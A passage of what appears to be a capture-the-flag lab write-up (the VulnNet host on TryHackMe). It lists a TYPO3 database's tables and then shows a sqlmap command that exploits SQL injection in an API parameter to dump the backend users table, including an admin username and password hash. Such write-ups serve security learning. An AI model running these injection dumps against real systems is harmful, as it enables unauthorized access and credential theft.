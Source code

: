 ````
| pages                                       |
| sys_be_shortcuts                            |
| sys_category                                |
| sys_category_record_mm                      |
| sys_collection                              |
| sys_collection_entries                      |
| sys_file                                    |
| sys_file_collection                         |
| sys_file_metadata                           |
| sys_file_processedfile                      |
| sys_file_reference                          |
| sys_file_storage                            |
| sys_filemounts                              |
| sys_history                                 |
| sys_language                                |
| sys_lockedrecords                           |
| sys_log                                     |
| sys_news                                    |
| sys_note                                    |
| sys_redirect                                |
| sys_refindex                                |
| sys_registry                                |
| sys_template                                |
| tt_content                                  |
| tx_extensionmanager_domain_model_extension  |
| tx_extensionmanager_domain_model_repository |
| tx_impexp_presets                           |
+---------------------------------------------+
````

but `be_users` should be `backend` users. so, something i was looking for. and there was the admin user.

```shell
$ sqlmap -u http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=0 -D vn_admin -T be_users -C admin,username,password --dump

Database: vn_admin
Table: be_users
[1 entry]
+-------+----------+---------------------------------------------------------------------------------------------------+
| admin | username | password                                                                                          |
+-------+----------+---------------------------------------------------------------------------------------------------+
| 1     | chris_w  | $argon2i$v=19$m=65536,t=16,p=2$UnlVSEgyMUFnYnJXNXlXdg$j6z3IshmjsN+CwhciRECV2NArQwipqQMIBtYufyM4Rg |
+-------+----------+---------------------------------------------------------------------------------------------------+
```
